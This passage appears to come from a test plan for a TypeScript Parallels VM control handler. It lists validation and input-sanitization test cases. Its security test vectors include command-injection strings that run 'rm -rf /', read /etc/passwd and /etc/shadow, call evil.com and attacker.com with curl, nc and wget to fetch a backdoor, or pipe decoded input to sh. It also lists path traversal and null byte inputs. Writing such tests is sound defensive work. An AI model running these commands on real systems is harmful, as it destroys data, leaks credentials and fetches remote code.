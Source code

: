 **Security Test Vectors:**

```typescript
const injectionVectors = [
  'vm; rm -rf /',
  'vm`cat /etc/passwd`',
  'vm$(curl evil.com)',
  'vm && nc attacker.com 4444',
  'vm | base64 -d | sh',
  'vm\nwget http://evil.com/backdoor.sh',
  'vm${IFS}cat${IFS}/etc/shadow',
];
```

##### 1.5 `isValidUuid` Function

**Test Cases:**

- ✅ Valid UUID with correct format
- ✅ Case-insensitive UUID validation
- ✅ Missing braces rejection
- ✅ Invalid character rejection
- ✅ Incorrect length rejection
- ✅ Wrong separator rejection
- ✅ Empty string/null handling

### 2. Security Module (Implicit in prlctl-handler.ts)

#### Test Coverage Areas

##### 2.1 Input Sanitization

**Test Cases:**

- Command injection prevention via semicolons
- Command injection prevention via pipes
- Command injection prevention via command substitution
- Path traversal prevention (../, ..\)
- Null byte injection prevention
- Unicode normalization attacks
- Buffer overflow attempts
- XML/JSON injection in parameters

**Test Implementation:**

```typescript
describe('Security - Input Sanitization', () => {
  const dangerousInputs = [
    { input: '../../../etc/passwd', description: 'Path traversal' },
    { input: 'vm\x00.txt', description: 'Null byte injection' },
    { input: 'vm⁄etc⁄passwd', description: 'Unicode slash variants' },
  ];

  test.each(dangerousInputs)('should sanitize $description', ({ input }) => {
    const result = sanitizeVmIdentifier(input);
    expect(result).not.toContain('..');
    expect(result).not.toContain('\x00');
  });
});
```
